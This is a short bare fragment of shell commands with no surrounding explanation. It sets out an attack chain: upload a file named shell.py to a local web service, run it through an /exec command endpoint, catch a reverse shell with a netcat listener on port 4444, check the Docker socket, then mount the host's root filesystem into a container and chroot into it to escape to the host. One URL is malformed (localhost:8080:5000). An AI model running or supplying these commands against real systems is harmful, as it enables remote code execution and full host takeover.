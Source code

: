 

curl -X POST http://localhost:5000/exec \
     -H "Content-Type: application/json" \
     -d '{"cmd": "python3 /uploads/shell.py"}'


curl -X POST http://localhost:8080/upload -F "file=@shell.py"
curl -X POST http://localhost:8080:5000/exec -H "Content-Type: application/json" -d '{"cmd": "python3 /uploads/shell.py"}'
nc -lvnp 4444
ls -l /var/run/docker.sock
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
